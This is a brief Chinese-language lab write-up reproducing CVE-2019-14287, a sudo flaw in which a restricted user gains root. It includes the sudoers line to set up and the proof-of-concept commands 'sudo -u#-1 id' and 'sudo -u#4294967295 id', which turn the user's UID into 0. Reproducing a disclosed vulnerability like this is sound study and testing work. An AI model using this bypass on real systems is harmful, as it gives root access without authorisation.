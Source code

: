 CVE-2019-14287 sudo 权限绕过
----

咱不说原理，就说复现步骤，原理请自行google，或移步：
http://vulsee.com/archives/vulsee_2019/1015_9074.html

默认情况下，在大多数Linux发行版中如图所示，/etc /sudoers文件中RunAs规范中的ALL关键字允许admin或sudo组中的所有用户以系统上的任何有效用户身份运行任何命令。

#### 利用前提

用户具有 sudo 权限

####  复现过程

- 新建一个测试用户 axin
```
1. useradd axin 创建一个用户
2. passwd axin 给创建的用户设置密码
```



- 配置/etc/sudoers文件（对于这个配置文件不太了解的，可以多看看漏洞原理）
在sudoers文件中添加一行`axin ALL=(ALL:!root) ALL`
![](assets/sudoers.png)



- 然后切换到测试用户axin,执行我们的poc
```
sudo -u#-1 id 或者 sudo -u#4294967295 id
```
![](assets/poc.png)

通过截图可以看到，原本我们的axin用户的uid是1000的，但是执行了我们的poc过后就变成了0,uid为0也正是root用户


至此，漏洞复现结束
